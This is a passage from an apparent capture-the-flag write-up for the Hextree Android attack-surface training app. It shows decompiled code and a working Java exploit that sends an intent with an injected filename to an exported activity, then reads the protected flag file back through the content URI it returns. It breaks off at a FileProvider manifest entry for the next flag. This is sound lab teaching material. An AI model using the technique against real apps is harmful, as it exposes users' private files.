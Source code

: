 ```java

    void prepareFlag(Context context, String str) {
        if (str.contains("flag34.txt") && new File(getFilesDir(), str).exists()) {
            LogHelper logHelper = new LogHelper(context);
            logHelper.addTag("file-provider");
            logHelper.addTag("flag34");
            Utils.writeFile(this, "flags/flag34.txt", logHelper.appendLog(FLAG));
        }
    }

```

when it receives an intent it checks for string data under name `filename` and if it's null a preset uri to a file is used `content://io.hextree.files/secret.txt` and if there is data the uri will be created with the authority and out input name But which do we what to right?
the method used to prepare the flag suggests that it takes the flag from somewhere and then write it into `flags/flag34.txt`

#### Solution
we need to access `flags/flag34.txt` and so we will add it under `filename` and since their is a result that is being set so we will use `startActivityForResult()`

```java
Intent intent = new Intent();  
intent.putExtra("filename","flags/flag34.txt"); //you want secret so dont use it  
intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag34Activity"));  
startActivityForResult(intent,1);

if (requestCode == 1) {  
        Log.d("Hextree","URI: "+ data.getData().toString());  
    try {  
        InputStream inputStream = getContentResolver().openInputStream(data.getData());  
        BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));  
        String line ;  
        while ((line = reader.readLine()) != null) {  
            Log.d("File", "[*]" + line);  
        }  
    } catch (FileNotFoundException e) {  
        throw new RuntimeException(e);  
    } catch (IOException e) {  
        throw new RuntimeException(e);  
    }  
}
```

### Flag 35
#### Code analysis
```xml
 <provider
            android:name="io.hextree.attacksurface.providers.Flag35FileProvider"
            android:exported="false"
            android:authorities="io.hextree.root"
            android:grantUriPermissions="true">
            <meta-data
                android:name="android.support.FILE_PROVIDER_PATHS"
                android:resource="@xml/rootpaths"/>
        </provider>
```
